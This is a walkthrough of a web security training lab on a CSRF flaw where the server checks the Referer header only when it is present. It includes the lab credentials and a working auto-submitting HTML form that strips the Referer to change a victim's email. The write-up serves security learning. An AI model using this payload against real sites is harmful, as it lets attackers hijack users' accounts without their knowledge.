 ### Lab: CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, changed the email

2. In BurpRepeater sent the POST request to **/my-account/change-email** to change email address
    - setting the value of the Referer header to _http://fakedomain.fake_, the server returned response 400 Bad Request "Invalid referer header"
    - deleting the referer header, server accepted the request and processed the change-email request

3. Crafted and delivered to victim the following payload

```html
<html>
    <head>
        <meta name="referrer" content="never">
    </head>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="youjustgot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>
            document.forms[0].submit()
        </script>
    </body>
</html>
```

```<meta name="referrer" content="never">```: referer header is not sent along the request
